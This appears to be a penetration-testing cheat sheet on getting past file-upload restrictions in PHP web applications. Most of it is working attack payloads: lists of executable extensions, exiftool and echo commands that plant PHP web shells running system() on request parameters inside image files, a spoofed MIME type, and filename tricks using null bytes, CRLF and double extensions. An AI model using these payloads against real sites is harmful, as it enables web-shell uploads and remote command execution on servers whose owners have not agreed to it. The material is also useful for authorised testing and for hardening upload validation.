 # uploadfile-extensionbypass
Common Extension File Upload Bypass

```
.php
.PhTmL
.php2
.php3
.php4
.php5
.php6
.php7
.phps
.pht
.phtm
.phtml
.pgif
.shtml
.htaccess
.phar
.inc
.hphp
.ctp
.module
```

Bypass magic number 
```
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
echo '<?php system($_REQUEST['cmd']); ?>' >> img.png
```

Bypass Mime_Type 
```
application/x-httpd-php
```

Unrestricted file upload trick
```
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.php....
file.pHp5....
```

```
file.png.php
file.png.pHp5
file.php#.png
file.php%00.png
file.php\x00.png
file.php%0a.png
file.php%0d%0a.png
file.phpJunk123png
```

```
file.png.jpg.php
file.php%00.png%00.jpg
```
